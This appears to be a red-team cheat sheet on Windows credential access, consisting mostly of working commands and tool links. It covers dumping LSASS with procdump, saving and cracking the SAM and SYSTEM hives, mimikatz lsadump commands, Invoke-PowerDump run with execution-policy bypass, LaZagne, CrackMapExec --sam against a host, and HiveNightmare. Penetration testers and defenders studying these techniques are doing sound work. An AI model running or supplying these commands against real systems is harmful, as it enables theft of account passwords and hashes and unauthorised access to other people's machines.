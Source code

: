 # Credential Access

The adversary is trying to steal account names and passwords.

### Dump LSASS

```
procdump.exe -accepteula -ma lsass.exe lsass.dmp

// or avoid reading lsass by dumping a cloned lsass process
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```

check https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dump-credentials-from-lsass-process-without-mimikatz for GUI dump

### Dumping Hashes

List of loots to collect
- [ ] Manually

  ```
    reg save hklm\sam C:\Users\Public\sam
    reg save hklm\system C:\Users\Public\system
  ```
  Once you have retrieved the data from SAM, you can use SamDump2 tool to dump its hashes with the following command
  
  `samdump2 system sam`
  
- [ ] Impacket
  - `./secretsdump.py -sam /root/Desktop/sam -system /root/Desktop/system LOCAL`
  
- [ ] Mimikatz
  - binaries https://github.com/ParrotSec/mimikatz
  - project https://github.com/gentilkiwi/mimikatz
  - mimikatz cheatsheet https://gist.github.com/insi2304/484a4e92941b437bad961fcacda82d49
  
  ```
  privilege::debug
  token::elevate
  lsadump::sam
  ```
  
- [ ] Pypykatz
  - Project https://github.com/skelsec/pypykatz
  - Demo https://www.youtube.com/watch?v=X4YCJYQ-zVg
 
- [ ] Nightmare Hive
  - Exploit allowing you to read any registry hives as non-admin.
  - https://github.com/GossiTheDog/HiveNightmare/tree/master/Release

- [ ] PwDump7
  - Only for Windows7
  - https://www.tarasco.org/security/pwdump_7/pwdump7.zip

- [ ] Powershell Script
  - https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-PowerDump.ps1
  - `powershell.exe -exec bypass -Command "& {Import-Module .\Invoke-PowerDump.ps1; Invoke-PowerDump}"`

- [ ] lazagne.exe
  - project https://github.com/AlessandroZ/LaZagne
  - binaries https://github.com/AlessandroZ/LaZagne/releases/
  - `lazagne.exe all`

- [ ] CrackMapExec 
  - `crackmapexec smb 192.168.1.105 -u 'AdministratorUsername' -p 'password1234' --sam`
  
  
### WiFi Credentials

   - [ ] Windows WiFi Password Extractor
     - https://github.com/hmaverickadams/Windows-WiFi-Extractor
     
### References
- https://www.hackingarticles.in/credential-dumping-sam/
